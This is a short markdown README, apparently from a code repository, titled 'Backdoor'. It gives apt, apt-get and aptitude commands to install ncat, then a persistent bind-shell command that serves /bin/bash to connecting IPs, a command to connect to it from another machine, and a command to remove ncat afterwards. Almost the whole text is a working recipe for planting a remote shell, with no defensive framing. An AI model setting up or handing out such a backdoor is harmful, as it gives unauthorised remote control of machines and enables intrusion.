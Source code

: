 # Backdoor 
## Install ncat on the locat box
### Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>

## Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port>'



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

